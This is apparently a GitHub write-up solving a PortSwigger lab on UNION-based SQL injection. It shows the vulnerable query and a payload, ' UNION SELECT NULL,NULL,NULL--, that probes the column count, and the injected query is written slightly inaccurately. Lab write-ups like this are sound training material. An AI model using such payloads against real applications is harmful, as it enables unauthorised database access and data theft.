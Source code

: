 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5086ef31-864a-4e3f-a5b1-8f27bf57b35c)

## Solution :

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```
Added "UNION NULL" to the request to determine the number of columns used in the query.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL,NULL--
```
